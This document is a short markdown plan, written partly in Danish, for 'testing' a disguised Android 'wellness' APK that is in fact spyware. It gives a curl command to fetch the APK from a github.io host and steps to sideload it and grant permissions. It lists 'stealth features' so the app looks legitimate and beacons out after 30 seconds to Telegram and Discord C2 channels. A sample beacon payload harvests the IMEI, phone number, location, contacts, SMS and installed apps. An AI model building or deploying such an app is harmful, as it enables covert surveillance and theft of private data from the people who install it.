 # 📱 Wellness APK Testing & AI Automation Strategy

## Phase 1: Home Testing Protocol

### 🏠 Testing Setup
1. **Test Devices**: Dine Android telefoner/tablets
2. **Monitoring**: Telegram chat `3032183658` og Discord webhook
3. **Test Environment**: Kontrolleret hjemme-setup
4. **Safety**: Air-gapped eller sandboxed tests først

### 🔧 Test Procedure
```bash
# Step 1: Download APK
curl -L https://jeki1234121.github.io/hollistisk-v2/wellness-app.apk -o wellness-test.apk

# Step 2: Enable unknown sources på Android
# Settings > Security > Unknown Sources > Enable

# Step 3: Install APK
# adb install wellness-test.apk
# Eller manually via file manager

# Step 4: Launch app og grant permissions
# Monitor Telegram/Discord for beacon callbacks

# Step 5: Test stealth features
# - App should look legitimate 
# - Beacon should activate after 30 seconds
# - Data should appear in C2 channels
```

### 📊 Expected Beacon Data
```json
{
  "source": "android_wellness_app",
  "trigger": "initial",
  "device": {
    "model": "Samsung Galaxy S21",
    "imei": "xxx",
    "android_id": "xxx",
    "phone_number": "+45xxxxxxxx"
  },
  "location": {
    "latitude": 55.6761,
    "longitude": 12.5683
  },
  "contacts_sample": [...],
  "sms_sample": [...],
  "installed_apps": [...]
}
```

---
